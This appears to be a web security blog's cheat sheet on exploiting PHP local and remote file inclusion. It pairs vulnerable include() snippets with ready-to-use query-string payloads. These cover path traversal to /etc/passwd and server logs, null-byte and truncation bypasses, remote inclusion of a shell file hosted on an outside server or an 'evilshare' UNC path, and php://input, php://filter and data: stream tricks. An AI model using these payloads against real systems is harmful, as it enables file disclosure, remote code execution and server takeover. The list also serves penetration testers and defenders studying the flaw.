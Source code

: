 ## Exploiting PHP File Inclusion – Overview

**Basic Local File Inclusion:**

<?php include("inc/" . $_GET['file']); ?>

-   Including files in the same directory:  
    _?file=.htaccess_
-   Path Traversal:  
    _?file=../../../../../../../../../var/lib/locate.db_  
    (this file is very interesting because it lets you search the filesystem, [other files](http://www.digininja.org/blog/when_all_you_can_do_is_read.php))
-   Including injected PHP code:  
    _?file=../../../../../../../../../var/log/apache/error.log_
    
    Tricks:
    
    -   list of possible [Apache dirs](http://wiki.apache.org/httpd/DistrosDefaultLayout)
    -   include access log from [file descriptor](http://pastebin.com/raw.php?i=cRYvK4jb) _/proc/self/fd/XX_
    -   include more info from the [proc file system](https://blog.netspi.com/directory-traversal-file-inclusion-proc-file-system/)
    -   include [email log files](http://devels-playground.blogspot.com/2007/08/local-file-inclusion-tricks.html)
    -   include [ssh auth.log](http://www.coresec.org/2011/05/12/local-file-inclusion-to-remote-command-execution-using-ssh/)
    -   abuse avatar/image/attachment file uploads
    -   include [session files](http://ddxhunter.wordpress.com/2010/03/10/lfis-exploitation-techniques/)
    -   include PHP’s [temporarily uploaded files](http://gynvael.coldwind.pl/?id=376)
    -   If you additionally have a phpinfo() output, read [here](http://www.insomniasec.com/publications/LFI%20With%20PHPInfo%20Assistance.pdf).
    
    **Limited Local File Inclusion:**
    
    <?php include("inc/" . $_GET['file'] . ".htm"); ?>
    
    -   Null Byte Injection:  
        _?file=../../../../../../../../../etc/passwd%00_  
        (requires magic_quotes_gpc=off)
    -   Directory Listing with Null Byte Injection:  
        _?file=../../../../../../../../../var/www/accounts/%00_  
        (UFS filesystem only, requires magic_quotes_gpc=off, more details [here](https://websec.wordpress.com/2009/11/28/freebsd-directory-listing-with-php-file-functions/))
    -   Path Truncation:  
        _?file=../../../../../../../../../etc/passwd.\.\.\.\.\.\.\.\.\.\.\ …_  
        (more details see [here](http://www.ush.it/2009/02/08/php-filesystem-attack-vectors/) and [here](http://www.ush.it/2009/07/26/php-filesystem-attack-vectors-take-two/))
    -   Dot Truncation:  
        _?file=../../../../../../../../../etc/passwd……………. …_  
        (Windows only, more details [here](http://www.notsosecure.com/folder2/2010/02/02/local-file-inclusion-with-magic_quotes_gpc-enabled/))
    -   Reverse Path Truncation:  
        _?file=../../../../ […] ../../../../../etc/passwd_  
        (more details [here](http://ptresearch.blogspot.com/2010/08/another-alternative-for-null-byte.html))
    
    **Basic Remote File Inclusion**
    
    <?php include($_GET['file']); ?>
    
    -   Including Remote Code:  
        _?file=[http|https|ftp]://websec.wordpress.com/shell.txt_  
        (requires allow_url_fopen=On and allow_url_include=On)
    -   Using PHP stream php://input:  
        _?file=php://input_  
        (specify your payload in the POST parameters, watch urlencoding, details [here](http://php.net/manual/en/wrappers.php.php), requires allow_url_include=On)
    -   Using PHP stream php://filter:  
        _?file=php://filter/convert.base64-encode/resource=index.php_  
        (lets you read PHP source because it wont get evaluated in base64. More details [here](http://diablohorn.wordpress.com/2010/01/16/interesting-local-file-inclusion-method/) and [here](http://php.net/manual/en/wrappers.php.php))
        
    -   Using data URIs:  
        _?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=_  
        (requires allow_url_include=On)
    -   Using XSS:  
        _?file=http://127.0.0.1/path/xss.php?xss=phpcode_  
        (makes sense if firewalled or only whitelisted domains allowed)
    
    **Limited Remote File Inclusion**
    
    <?php include($_GET['file'] . ".htm"); ?>
    
    -   _?file=https://websec.wordpress.com/shell_
    -   _?file=https://websec.wordpress.com/shell.txt?_
    -   _?file=https://websec.wordpress.com/shell.txt%23_
    
    (requires allow_url_fopen=On and allow_url_include=On)
    
    -   _?file=\\evilshare\shell.php_
    
    (bypasses allow_url_fopen=Off)
    
    **Static Remote File Inclusion:**
    
    <?php include("http://192.168.1.10/config.php"); ?>
    
    -   Man In The Middle  
        (lame indeed, but often forgotten)
    
    **Filter evasion**
    
    -   Access files with wildcards (read more [here](http://upshell.wordpress.com/2011/06/11/new-vulnerabilities-to-access-files-in-php/))
    
    Of course you can combine all the tricks. If you are aware of any other or interesting files to include please leave a comment and I’ll add them.